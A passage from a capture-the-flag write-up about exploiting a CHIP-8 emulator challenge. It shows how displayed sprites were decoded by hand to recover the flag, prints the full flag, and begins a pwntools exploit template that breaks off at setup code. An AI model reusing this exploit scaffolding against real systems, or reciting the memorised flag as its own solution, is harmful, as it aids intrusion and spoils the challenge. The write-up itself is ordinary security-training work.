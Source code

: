 If we decode chars by hand (each byte is a line for which white is 1 and black zero), we get:
```
╔════════════════════════════════════════════════════════════════╗
║ █ █ ▄▄▄                                                        ║PW
║ █  ██▀▄                                                        ║NM
║ █▄▄▄▀▄█                                                        ║E{
║ █  ▄ ▀▀                                                        ║CH
║ ▄██   ▀                                                        ║18
║  █▄█▀ ▀                                                        ║-8
║ ▀▄█▀▀██                                                        ║_3
║ ▀▀ ▀▀ ▀                                                         m
```

If we repeat this step 4 times (by incrementing the value of V1), we finally managed to get the flag: `PWNME{CH1p-8_3mu14t0r_1s_h4Ck4bl3_1n_2023_y34h}`.

## Full exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfmate

import os
import time
import pwn

BINARY = "wrapper"
LIBC = "/usr/lib/x86_64-linux-gnu/libc.so.6"
LD = "/lib64/ld-linux-x86-64.so.2"

# Set up pwntools for the correct architecture
exe = pwn.context.binary = pwn.ELF(BINARY)
libc = pwn.ELF(LIBC)
ld = pwn.ELF(LD)
pwn.context.terminal = ["tmux", "splitw", "-h"]
pwn.context.delete_corefiles = True
pwn.context.rename_corefiles = False
p64 = pwn.p64
u64 = pwn.u64
p32 = pwn.p32
u32 = pwn.u32
p16 = pwn.p16
u16 = pwn.u16
p8  = pwn.p8
u8  = pwn.u8

host = pwn.args.HOST or '127.0.0.1'
port = int(pwn.args.PORT or 1337)


def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if pwn.args.GDB:
        return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return pwn.process([exe.path] + argv, *a, **kw)


def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
```